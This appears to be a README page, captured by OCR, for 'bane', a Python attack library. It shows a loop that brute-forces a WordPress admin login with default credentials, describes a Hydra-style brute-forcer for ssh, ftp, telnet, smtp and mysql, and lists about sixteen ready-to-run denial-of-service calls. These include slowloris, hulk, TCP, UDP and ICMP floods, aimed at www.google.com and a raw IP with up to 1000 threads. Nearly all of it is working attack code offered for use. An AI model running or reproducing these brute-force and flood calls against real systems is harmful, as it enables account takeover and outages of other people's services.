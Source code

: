 <br><h3>WORDPRESS ADMIN LOGIN:</h3>


>>>wordlist=["admin:admin","admin:12345","root:root"]
<br>for x in wordlist:
<br> user=x.split(":")[0]
<br> pwd=x.split(":")[1]
<br> print'"[*]Trying:",user,pwd
<br> if bane.wpadmin("http://example.com/",username=user,password=pwd)==True:
<br>  print'[+]Found'
<br>  break
<br> else:
<br>  print'[-]Failed'



<br><h3>HYDRA TOOL:</h3> 

<br>hydra is a famous tool that is widely used for bruteforce attacks. here is a python version of it in python based on the above functions.
<br>it takes the following parameters:

<br>proto:set by default to: "ssh", it can be set to: "ftp","ssh","telnet","smtp","mysql"<br>p: target port, set by default to: 22<br>wl: the list contains usernames and passwords seperated by ":", ex: ["admin:admin","admin:12345","root:root"]



<br><h1>DoS / DDoS:</h1> (useful link: https://en.wikipedia.org/wiki/Denial-of-service_attack )



>>>bane.hulk('www.google.com',threads=1000) #hulk attack

>>>bane.proxhulk('www.google.com',threads=1000) #hulk attack with http proxies

>>>bane.slowloris('www.google.com',p=80,threads=50) #slowloris attack

>>>bane.xerxes('www.google.com',p=443,threads=500) #xerxes attack

>>>bane.httpflood('www.google.com',p=80,threads=1000) #http flood

>>>bane.lulzer('www.google.com',p=80,threads=1000) #http flood with proxies

>>>bane.tcpflood('www.google.com',threads=1000) #tcp flood

>>>bane.udp('50.63.33.34',p=80) #udp flood

>>>bane.doser('https://www.google.com',threads=500)

>>>bane.proxdoser('https://www.google.com',threads=500)

>>>bane.torshammer('www.google.com',p=80,threads=1000)

>>>bane.slowread('www.google.com',p=80,threads=1000)

>>>bane.apachekiller('www.google.com',p=80,threads=500)

>>>bane.goldeneye('www.google.com',p=80,threads=1000)

>>>bane.medusa('www.google.com',p=80,threads=1000)

>>>bane.icmp('50.63.33.34',p=80,threads=100)
